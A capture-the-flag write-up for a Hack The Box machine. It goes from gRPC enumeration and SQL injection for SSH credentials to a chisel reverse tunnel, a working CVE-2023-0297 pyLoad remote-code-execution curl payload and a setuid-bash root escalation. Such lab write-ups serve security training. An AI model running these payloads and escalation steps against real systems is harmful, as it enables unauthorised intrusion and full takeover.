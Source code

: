 Nmap reveals a strange port that is open, accessing the webpage does not reveal anything.

```
└──╼ [★]$ nmap -sC -A -T4 -p- -Pn 10.129.85.76
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 20:42 BST
Nmap scan report for 10.129.85.76
Host is up (0.0044s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

Attempting to connect to it does give us a hint.
```
└──╼ [★]$ telnet 10.129.85.76 50051
Trying 10.129.85.76...
Connected to 10.129.85.76.
Escape character is '^]'.
?�?� ?@Did not receive HTTP/2 settings before handshake timeoutConnection closed by foreign host.
```

After some googling I learned that it was a grpc server and we can access that by installing the gui.

https://github.com/fullstorydev/grpcui
```
└──╼ [★]$ go install github.com/fullstorydev/grpcui/cmd/grpcui@latest
```
```
└──╼ [★]$ chmod -R 777 go/
```
```
└──╼ [★]$ ./grpcui -plaintext 10.129.94.151:50051
gRPC Web UI available at http://127.0.0.1:32953/
```
After installing and running the program we are greeted with a page.

Using default credentials works but it does not get us anywhere.

![image](https://github.com/Rogue-1/HTB/assets/105310322/1798d19a-54b0-47d8-8efa-4114f991063c)

![image](https://github.com/Rogue-1/HTB/assets/105310322/e08a1923-efe7-4dcc-81f0-d6052dcd9eca)

However in the getinfo section we can see that it may be vulnerable to sql injection based on the errors.

![image](https://github.com/Rogue-1/HTB/assets/105310322/6a096f4e-55c8-41a7-b58a-7a4ca47692dd)

After alot of messing around we finally get some data back with usernames and passwords to log in through ssh as sau - HereIsYourPassword1431

![image](https://github.com/Rogue-1/HTB/assets/105310322/cf957875-1695-4199-b76c-70173edc6386)

![image](https://github.com/Rogue-1/HTB/assets/105310322/e2c71132-d908-40ab-b22d-19e60477e86b)


Login and grab the user flag.

```
└──╼ [★]$ ssh sau@10.129.94.151
sau@10.129.94.151's password: 
Last login: Mon May 15 09:00:44 2023 from 10.10.14.19
sau@pc:~$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)

sau@pc:~$ cat user.txt
474dded2************************
```

After logging in I ran linpeas and noticed port 8000 was open.

Transfer chisel to the victim and run it to access the webpage on our host computer.

```
└──╼ [★]$ chisel server --reverse --port 1234
2023/07/11 22:04:39 server: Reverse tunnelling enabled
2023/07/11 22:04:39 server: Fingerprint izTDIgf3pIe+DypOlVdLmutBd4Tj0fu+cuNRh3rvtyM=
2023/07/11 22:04:39 server: Listening on http://0.0.0.0:1234
2023/07/11 22:04:40 server: session#1: tun: proxy#R:8000=>8000: Listening

sau@pc:/dev/shm$ ./chisel client 10.10.14.31:1234 R:8000:127.0.0.1:8000
2023/07/11 21:04:15 client: Connecting to ws://10.10.14.31:1234
```

We are greeted with a login page for pyload but none of the credentials we have work. Luckily a quick google search for pyload vulnerabilites shows that there is a CVE for it.

![image](https://github.com/Rogue-1/HTB/assets/105310322/010ff159-666f-4e78-a64d-11f764d553d9)

https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad

Create a simple priv esc bash script

```
#!/bin/bash

chmod u+s /bin/bash
```

Modify the payload to access your bash script.

Running the script may appear to fail but if you check it you can see that it was successful.

```
└──╼ [★]$ curl -i -s -k -X $'POST'     --data-binary $'jk=pyimport%20os;os.system(\"bash%20/dev/shm/bash.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'     $'http://127.0.0.1:8000/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Tue, 11 Jul 2023 21:27:37 GMT
Server: Cheroot/8.6.0

Could not decrypt key
```

```
sau@pc:/dev/shm$ ./chisel client 10.10.14.31:1234 R:8000:127.0.0.1:8000
2023/07/11 21:27:21 client: Connecting to ws://10.10.14.31:1234
2023/07/11 21:27:21 client: Connected (Latency 3.771334ms)
^C2023/07/11 21:27:40 client: Disconnected
2023/07/11 21:27:40 client: Give up
sau@pc:/dev/shm$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash

```

After everything works out you can grab the root flag!

```
sau@pc:/dev/shm$ bash -p
bash-5.0# cat /root/root.txt
d54654ee************************
```
